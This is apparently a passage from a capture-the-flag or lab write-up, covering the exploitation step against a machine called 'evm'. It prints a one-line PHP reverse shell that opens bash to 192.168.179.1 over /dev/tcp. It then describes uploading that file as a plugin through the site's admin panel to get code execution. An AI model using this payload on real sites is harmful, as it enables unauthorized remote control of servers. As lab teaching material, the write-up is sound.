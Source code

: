 ## Exploitation
### Injecting a Malicious Plugin

We can upload php files as a plugin, for this I create a simple php reverse shell.

```console
root@kali:~$ cat shell.php 
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.179.1/443 0>&1'"); ?>
```

Then we add a new plugin in the following path **Plugins -> Add New -> Upload Plugin**, and later we click **Install Now**.

![](/assets/images/evm/screenshot-7.png)

![](/assets/images/evm/screenshot-8.png)
